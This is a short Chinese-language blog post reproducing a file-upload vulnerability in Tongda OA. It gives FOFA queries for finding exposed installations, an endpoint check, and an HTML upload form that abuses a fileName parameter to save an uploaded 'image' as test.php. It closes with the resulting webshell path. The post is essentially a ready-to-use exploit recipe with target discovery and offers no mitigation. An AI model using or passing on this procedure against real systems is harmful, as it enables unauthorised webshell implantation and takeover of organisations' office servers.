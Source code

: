 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门
```html
<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

<input type="file" name="Filedata" size="50"><br>

<input type="submit" value="Upload">

</form>
```
- 以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













